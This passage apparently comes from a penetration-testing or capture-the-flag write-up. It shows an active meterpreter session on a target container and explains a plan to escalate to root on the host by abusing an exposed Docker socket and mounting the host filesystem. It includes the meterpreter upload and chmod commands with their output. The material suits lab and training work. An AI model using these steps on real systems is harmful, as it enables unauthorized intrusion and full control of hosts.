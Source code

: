 ``` shell
[*] Sending stage (816260 bytes) to vulnerable

meterpreter > 
```

## Escalating privileges

To escalate privileges we will abuse the docker socket being available inside
the container. Since `dockerd` runs as root in the host machine, it has root
permissions so we can abuse it to do several things. For example using
`--privileged` can give you several extended capabilities, the text bellow
explaining them was extracted from the official docker documentation:

> By default, Docker containers are “unprivileged” and cannot, for example, run a
> Docker daemon inside a Docker container. This is because by default a
> container is not allowed to access any devices, but a “privileged” container
> is given access to all devices (see the documentation on cgroups devices).
> When the operator executes docker run --privileged, Docker will enable access
> to all devices on the host as well as set some configuration in AppArmor or
> SELinux to allow the container nearly all the same access to the host as
> processes running outside containers on the host. 

You can access devices with `--device`, but in our case, we will map the root
file system (`/`) to the container and have access to it.

Since there is no docker client inside this container, the very first step is to
setup the docker client and its dependencies inside our target container. Just
run the command bellow and everything will be done.

``` shell
upload /docker /docker
upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
chmod 777 /docker
chmod +x /docker
```

``` shell
meterpreter > upload /docker /docker
[*] uploading  : /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] uploaded   : /docker -> /docker
meterpreter > upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploading  : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] Uploaded -1.00 B of 38.47 KiB (-0.0%): /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploaded   : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
meterpreter > chmod 777 /docker
meterpreter > chmod +x /docker
meterpreter > 
```
